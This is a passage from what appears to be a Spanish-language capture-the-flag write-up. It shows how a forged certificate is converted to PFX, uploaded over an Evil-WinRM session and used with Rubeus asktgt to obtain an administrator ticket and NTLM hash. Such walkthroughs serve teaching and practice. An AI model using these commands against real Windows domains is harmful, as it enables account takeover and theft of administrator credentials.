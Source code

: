 ```python
❯ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![20240313113141.png](20240313113141.png)

Luego subiremos el `cert.pem` con `upload` a la maquina victima

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> upload cert/cert.pfx
```

Ahora podremos usarlo para autenticarse usando Rubeus, podemos ver y leer un poco mas en el repositorio de [Rubeus - asktgt](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#asktgt) 

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> .\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx 
```

![20240313113335.png](20240313113335.png)

Ahora con `/getcredentials` solicitaremos las credenciales en donde encontraremos el hash `NTLM`

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> .\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials
```
